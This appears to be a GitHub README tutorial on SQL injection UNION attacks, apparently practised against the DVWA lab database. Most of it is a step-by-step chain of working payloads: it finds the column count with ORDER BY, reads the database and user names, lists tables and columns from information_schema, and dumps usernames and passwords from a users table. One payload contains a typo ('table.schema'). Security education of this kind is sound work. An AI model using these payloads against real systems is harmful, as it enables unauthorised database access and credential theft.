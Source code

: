 # SQL injection UNION attacks
 The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:
```sh
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
## Steps for Number of columns required in an SQL injection UNION attack 
```sh
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```
if exceeds the database returns an error
```sh
Unknown column '3' in 'order clause'
```
After Knowing the Columns present in the data 
 * Next step to find the Database and the user present.
```sh
' UNION SELECT database(),user()#
```
You will get the screen below:

![final1](https://github.com/rahulrbk/Docs/blob/master/pic.png)

* After Knowing the database name and the user name we will find 'TABLE' inside the database.
with the following query:

```sh
' UNION SELECT table_name,table_name FROM information_schema.tables WHERE table.schema="dvwadb"#
``` 

![final2](https://github.com/rahulrbk/Docs/blob/master/pic2.png)
* Now we have to find the information about Column data present in the table with the following query:

```sh
' UNION SELECT column_name,column_name FROM information_schema.columns WHERE table_schema="dvwadb"#
```
![final3](https://github.com/rahulrbk/Docs/blob/master/pic3.png)
* At this point we can search for the critical information of the target by mentioning the following query:

```sh
'UNION SELECT user,password FROM users#
```

![final4](https://github.com/rahulrbk/Docs/blob/master/pic4.png)




